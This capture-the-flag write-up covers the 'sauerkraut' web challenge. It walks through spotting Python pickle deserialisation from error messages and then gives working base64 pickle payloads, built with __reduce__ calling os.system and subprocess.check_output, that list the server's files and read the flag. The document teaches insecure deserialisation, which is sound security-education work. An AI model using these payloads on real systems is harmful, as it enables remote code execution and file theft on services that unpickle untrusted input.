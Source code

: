 # sauerkraut

## Challenge

We are presented with a webpage with an input and output field.
There is no explanation about the format of the input or output.

We can type plaintext in the input field and submit it, which sends our input to the remote server.
The server returns a response in plaintext, which is displayed in the output box.

## Solution

If we just enter the placeholder text, we get a useful error message as our response:

```
Input:
Enter text here...

Output:
Invalid base64-encoded string: number of data characters (13) cannot be 1 more than a multiple of 4
```

The program clearly expects a base64 input, so we can try something generic such as "AAAA" to see how it responds:

```
Input:
AAAA

Output:
invalid load key, '\x00'.
```

Googling this error message brings up posts about unpickling in Python, which is used to deserialise data.
This process is notoriously unsafe and it is strongly advised to avoid unpicking any user-controlled data.

We can use this by writing our own Python code and pickling it such that, when unpickled, the program executes our payload.
To do so, I used an example from https://blog.nelhage.com/2011/03/exploiting-pickle/

If we try using code from the article to call `nc`, the output is a single number:

```py
#!/usr/bin/env python2

import cPickle
import os
import base64

class Exploit(object):
    def __reduce__(self):
        return (os.system, ('nc', ))

print "nc:"
print base64.b64encode(cPickle.dumps(Exploit()))
```

```
Input:
Y3Bvc2l4CnN5c3RlbQpwMQooUyduYycKcDIKdHAzClJwNAou

Output:
32512
```

Googling this error code as "python system 32512" tells us that this is an error code which is often seen when the program cannot find the binary to execute.

We now know that netcat is likely not available, but also that the output is the return value of our code.

Using this information, we can modify our code to use `subprocess.check_output()` such that the return value is the output of our shell commands.

For example, the command `ls` can be encoded as:

```py
#!/usr/bin/env python2

import cPickle
import subprocess
import base64

class Exploit(object):
    def __reduce__(self):
        return (subprocess.check_output, ('ls', ))

print base64.b64encode(cPickle.dumps(Exploit()))
```

```
Input:
Y3N1YnByb2Nlc3MKY2hlY2tfb3V0cHV0CnAxCihTJ2xzJwpwMgp0cDMKUnA0Ci4=

Output:
b'app\nflag\ngunicorn_config.py\nrequirements.txt\n
```

We can see that the flag file is located in the same directory as the application.

Using the same technique, we can read this flag file:

```py
#!/usr/bin/env python2

import cPickle
import subprocess
import base64

class Exploit(object):
    def __reduce__(self):
        return (subprocess.check_output, (['cat','flag'], ))

print base64.b64encode(cPickle.dumps(Exploit()))
```

```
Input:
Y3N1YnByb2Nlc3MKY2hlY2tfb3V0cHV0CnAxCigobHAyClMnY2F0JwpwMwphUydmbGFnJwpwNAphdFJwNQou

Output:
b'SNYK{6854ecb17f51afdf2610f741dd07bd6099c616e4ab1a403eb14fa8639e1fb0af}\n'
```

## Exploit

```py
#!/usr/bin/env python2

import cPickle
import subprocess
import base64

class Exploit(object):
    def __reduce__(self):
        return (subprocess.check_output, ('ls', ))

print "ls:"
print base64.b64encode(cPickle.dumps(Exploit()))

print ""

class Exploit(object):
    def __reduce__(self):
        return (subprocess.check_output, (['cat','flag'], ))

print "cat flag:"
print base64.b64encode(cPickle.dumps(Exploit()))
```

```
ls:
Y3N1YnByb2Nlc3MKY2hlY2tfb3V0cHV0CnAxCihTJ2xzJwpwMgp0cDMKUnA0Ci4=

cat flag:
Y3N1YnByb2Nlc3MKY2hlY2tfb3V0cHV0CnAxCigobHAyClMnY2F0JwpwMwphUydmbGFnJwpwNAphdFJwNQou
```

## Flag

`SNYK{6854ecb17f51afdf2610f741dd07bd6099c616e4ab1a403eb14fa8639e1fb0af}`

